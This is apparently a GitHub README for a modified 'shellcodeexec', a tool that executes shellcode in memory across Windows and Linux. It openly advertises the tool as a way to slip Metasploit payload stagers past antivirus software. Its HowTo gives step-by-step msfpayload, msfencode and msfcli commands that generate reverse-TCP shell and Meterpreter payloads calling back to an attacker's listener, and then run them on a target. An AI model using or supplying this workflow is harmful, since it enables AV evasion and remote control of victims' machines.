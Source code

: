 ## Background

This is heavily modified shellcodeexec in order to support gcc, mingw and visual studio. Therefore, resulting binaries are much smaller. For example, win32 exe can be smaller than 4 KB when packed with UPX!

## Background from inquisb

Most of the shellcode launchers out there, including proof of concepts part of many "security" books, detail how to allocate a memory page as readable/writable/executable on POSIX systems, copy over your shellcode and execute it. This works just fine. However, it is limited to POSIX, does not necessarily consider 64-bit architecture and Windows systems.

## Description

shellcodeexec is an open source script to execute in memory a sequence of opcodes.

This script and the relevant project files (Makefile and Visual Studio files) allow you to compile the tool once then run your shellcode across different architectures and operating systems.

Moreover, it solves a common real world issue: the target system's anti virus software blocking a Metasploit-generated payload stager (either EXE of ELF). Take for instance the following command line:

    $ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=process LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/shikata_ga_nai -o /tmp/payload.exe -t exe

This generates a Metasploit payload stager, payload.exe, that as soon as it lands on the AV-protected target system is recognized as malicious and potentially blocked (depending on the on-access scan settings) by many anti virus products. At the time of writing this text, 21 out 41 anti viruses detect it as malicious - http://goo.gl/HTw7o. By encoding it multiple times with msfencode, less AV softwares detect it, still a lot.

I have been surfing the Net and found some interesting tutorials and guides about packing, compressing, obfuscating and applying IDA-foo to portable executables et similar in order to narrow down the number of AV products that can detect it as a malicious file. This is all interesting, but does not stop few hard-to-die anti viruses to detect your backdoor.

So the question is, how cool would it be to have a final solution to avoid all this hassle? This is exactly where this tool comes into play!

## Features

shellcodeexec:

* Can be compiled and works on POSIX (Linux/Unices) and Windows systems.
* Can be compiled and works on 32-bit and 64-bit architectures.
* As far as I know, no AV detect it as malicious.
* Works in DEP/NX-enabled environments: it allocates the memory page where it stores the shellcode as +rwx - Readable Writable and eXecutable.
* It supports alphanumeric encoded payloads: you can pipe your binary-encoded shellcode (generated for instance with Metasploit's msfpayload) to Metasploit's msfencode to encode it with the alpha_mixed encoder. Set the BufferRegister variable to EAX registry where the address in memory of the shellcode will be stored, to avoid get_pc() binary stub to be prepended to the shellcode.
* Spawns a new thread where the shellcode is executed in a structure exception handler (SEH) so that if you wrap shellcodeexec into your own executable, it avoids the whole process to crash in case of unexpected behaviours.

## HowTo

1. Generate a Metasploit shellcode and encode it with the alphanumeric encoder. For example for a Linux target:
```
$ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
Or for a Windows target:
```
$ msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
```
2. Execute the Metasploit multi/handler listener on your machine. For example for a Linux target:
```
$ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
Or for a Windows target:
```
$ msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
```
3. Execute the alphanumeric-encoded shellcode with this tool. For example on the Linux target:
```
$ ./shellcodeexec <msfencode's alphanumeric-encoded payload>
```
Or, on the Windows target:
```
C:\WINDOWS\Temp>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>
```

## License

This source code is free software; you can redistribute it and/or modify it under the terms of the GNU Lesser General Public License as published by the Free Software Foundation; either version 2.1 of the License, or (at your option) any later version.

This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License along with this library; if not, write to the Free Software Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston, MA  02110-1301  USA
